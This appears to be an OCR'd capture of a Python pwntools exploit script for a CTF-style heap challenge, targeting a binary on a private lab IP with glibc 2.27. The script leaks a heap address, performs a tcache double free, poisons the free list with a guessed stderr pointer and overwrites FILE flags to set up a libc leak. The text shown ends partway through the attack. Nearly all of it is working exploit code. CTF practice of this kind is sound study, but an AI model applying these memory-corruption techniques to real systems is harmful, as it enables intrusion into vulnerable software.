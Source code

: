 ```python
    sa      = lambda delim,data         :ctx.sendafter(str(delim), str(data)) 
    sl      = lambda data               :ctx.sendline(str(data)) 
    sla     = lambda delim,data         :ctx.sendlineafter(str(delim), str(data)) 
    r       = lambda numb=4096          :ctx.recv(numb)
    ru      = lambda delims, drop=True  :ctx.recvuntil(delims, drop)
    irt     = lambda                    :ctx.interactive()
    rs      = lambda *args, **kwargs    :ctx.start(*args, **kwargs)
    dbg     = lambda gs='', **kwargs    :ctx.debug(gdbscript=gs, **kwargs)
    # misc functions
    uu32    = lambda data   :u32(data.ljust(4, '\0'))
    uu64    = lambda data   :u64(data.ljust(8, '\0'))

    ctx.binary = './pwn'
    ctx.custom_lib_dir = '/root/share/project/glibc-all-in-one/libs/2.27-3ubuntu1_amd64'
    ctx.remote = ('172.16.9.21', 9006)
    ctx.debug_remote_libc = True
    
    ctx.symbols = {
        'lst':0x2022a0,
        'stderr':0x202160,
    }
    
    
    def add(idx, sz, content):
        sl(1)
        sla('index', idx)
        sla('size', sz)
        sa('write', content)
    
    def remove(idx):
        sl(2)
        sla('index', idx)
    
    while True:
        try:
            context.log_level = 'info'
            #rs('remote')
            rs()
            
            #dbg('c')
            
            
            add(0, 0x20, 'aaa')
            ru('gift :')
            heap_base = int(ru('\n'), 16) - 0x11e70
            guess_stderr = heap_base - 0x56cea0
            
            ru('>')
            add(1, 0x30, 'bbb')
            ru('>')
            remove(0)
            ru('>')
            remove(0)
            ru('>')
            add(2, 0x20, p64(guess_stderr))
            
            ru('>')
            add(3, 0x20, 'aaa')
            ru('>')
            add(4, 0x20, 'aaa')
            ctx.clean()
            add(5, 0x20, p64(0xfbad2087))
            ru('gift :')
```